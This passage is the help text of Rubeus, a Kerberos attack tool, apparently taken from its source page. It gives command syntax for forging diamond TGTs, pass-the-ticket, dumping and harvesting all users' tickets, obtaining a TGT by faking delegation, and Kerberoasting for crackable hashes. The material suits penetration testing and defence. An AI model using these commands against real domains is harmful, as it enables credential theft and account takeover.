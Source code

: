 		Forge a diamond TGT by requesting a TGT using tgtdeleg:
			Rubeus.exe diamond /tgtdeleg [/createnetonly:C:\Windows\System32\cmd.exe] [/outfile:FILENAME] [/ptt] [/luid] [/nowrap] [/krbkey:HASH] [/ticketuser:USERNAME] [/ticketuserid:USER_ID] [/groups:GROUP_IDS] [/sids:EXTRA_SIDS]


     Ticket management:

        Submit a TGT, optionally targeting a specific LUID (if elevated):
            Rubeus.exe ptt </ticket:BASE64 | /ticket:FILE.KIRBI> [/luid:LOGINID]

        Purge tickets from the current logon session, optionally targeting a specific LUID (if elevated):
            Rubeus.exe purge [/luid:LOGINID]

        Parse and describe a ticket (service ticket or TGT):
            Rubeus.exe describe </ticket:BASE64 | /ticket:FILE.KIRBI> [/servicekey:HASH] [/krbkey:HASH] [/asrepkey:HASH] [/serviceuser:USERNAME] [/servicedomain:DOMAIN] [/desplaintext:FIRSTBLOCKTEXT]


     Ticket extraction and harvesting:

        Triage all current tickets (if elevated, list for all users), optionally targeting a specific LUID, username, or service:
            Rubeus.exe triage [/luid:LOGINID] [/user:USER] [/service:krbtgt] [/server:BLAH.DOMAIN.COM]

        List all current tickets in detail (if elevated, list for all users), optionally targeting a specific LUID:
            Rubeus.exe klist [/luid:LOGINID] [/user:USER] [/service:krbtgt] [/server:BLAH.DOMAIN.COM]

        Dump all current ticket data (if elevated, dump for all users), optionally targeting a specific service/LUID:
            Rubeus.exe dump [/luid:LOGINID] [/user:USER] [/service:krbtgt] [/server:BLAH.DOMAIN.COM] [/nowrap]

        Retrieve a usable TGT .kirbi for the current user (w/ session key) without elevation by abusing the Kerberos GSS-API, faking delegation:
            Rubeus.exe tgtdeleg [/target:SPN]

        Monitor every /interval SECONDS (default 60) for new TGTs:
            Rubeus.exe monitor [/interval:SECONDS] [/targetuser:USER] [/nowrap] [/registry:SOFTWARENAME] [/runfor:SECONDS]

        Monitor every /monitorinterval SECONDS (default 60) for new TGTs, auto-renew TGTs, and display the working cache every /displayinterval SECONDS (default 1200):
            Rubeus.exe harvest [/monitorinterval:SECONDS] [/displayinterval:SECONDS] [/targetuser:USER] [/nowrap] [/registry:SOFTWARENAME] [/runfor:SECONDS]


     Roasting:

        Perform Kerberoasting:
            Rubeus.exe kerberoast [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/nowrap]

        Perform Kerberoasting, outputting hashes to a file:
            Rubeus.exe kerberoast /outfile:hashes.txt [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps]

        Perform Kerberoasting, outputting hashes in the file output format, but to the console:
            Rubeus.exe kerberoast /simple [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/nowrap]
